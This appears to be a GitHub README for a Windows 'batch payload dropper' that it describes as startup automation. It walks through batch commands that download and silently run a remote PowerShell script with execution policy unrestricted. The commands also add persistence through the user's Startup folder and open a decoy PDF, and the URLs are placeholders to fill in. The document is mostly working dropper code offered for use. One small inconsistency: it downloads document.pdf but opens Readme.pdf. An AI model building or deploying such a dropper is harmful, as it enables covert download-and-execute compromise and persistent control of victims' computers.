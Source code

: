 # batch_payload_dropper

This batch script, is designed to automate certain tasks during system startup by utilizing the Windows Startup mechanism. It involves downloading a PowerShell script and a PDF document from specified URLs and silently executing the PowerShell script upon system startup.

## Here's a breakdown of the script:

1. **Downloading and Execution Steps:**
   - Change directory to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Create a VBScript file (`run.vbs`) to run the PowerShell script (`script.ps1`) silently:
     ```batch
     echo command = "powershell.exe -nologo -ExecutionPolicy Unrestricted -File %temp%\script.ps1" >run.vbs
     echo set shell = CreateObject("WScript.Shell") >>run.vbs
     echo shell.Run command,0 >>run.vbs
     ```

   - Download the PowerShell script (`script.ps1`) from your desired URL using PowerShell:
     ```batch
     powershell.exe -WindowStyle hidden wget <your_script_url> -OutFile %TEMP%\script.ps1
     ```

   - Download other necessary files similarly, e.g., a PDF document:
     ```batch
     powershell.exe -WindowStyle hidden wget <your_pdf_url> -OutFile %TEMP%\document.pdf
     ```

2. **Setting up Autorun:**
   - Change directory to the user's Startup folder:
     ```batch
     cd "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
     ```

   - Create a batch file (`autorun.bat`) to run the VBScript (`run.vbs`) on startup:
     ```batch
     echo wscript %USERPROFILE%\AppData\Local\Temp\run.vbs > autorun.bat
     ```

   - Start the `autorun.bat` script in the background using `start` command:
     ```batch
     start /B autorun.bat
     ```

3. **Open the PDF Document:**
   - Change directory back to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Open the PDF document (`Readme.pdf`) in the default PDF reader:
     ```batch
     start /max Readme.pdf
     ```

## Customization

- You can customize the URLs to download the PowerShell script and other files by replacing `<your_script_url>` and `<your_pdf_url>` with your desired URLs.


